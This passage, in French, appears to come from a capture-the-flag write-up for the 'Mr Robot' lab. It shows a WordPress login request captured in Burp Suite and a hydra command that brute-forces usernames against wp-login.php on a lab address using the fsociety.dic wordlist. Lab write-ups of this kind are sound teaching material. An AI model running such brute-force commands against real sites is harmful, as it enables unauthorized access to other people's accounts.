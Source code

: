    - Nous pouvons aussi utiliser une autre méthode en utilisant hydra pour forcer brutalement le login. On essaie de se connecter sur la page et de capturer la requête envoyée en utilisant Burp Suite.

  ![burpsuite](images/thm_mr_robot_burp.png)

   - On voit que la requête envoyée lors d'une tentative de connexion est `log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.14.242%2Fwp-admin%2F&testcookie=1`.

   - Nous tentons de nous connecter, mais nous nous rappelons du fichier `fsocity.dic` que nous avons déjà. Nous réfléchissons donc à une attaque par force brute en utilisant `hydra`. J'utilise la commande suivante pour bruteforcer le username :
     ```bash
      hydra -L fsociety.dic -p test  10.10.14.242 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:login failed"
     ```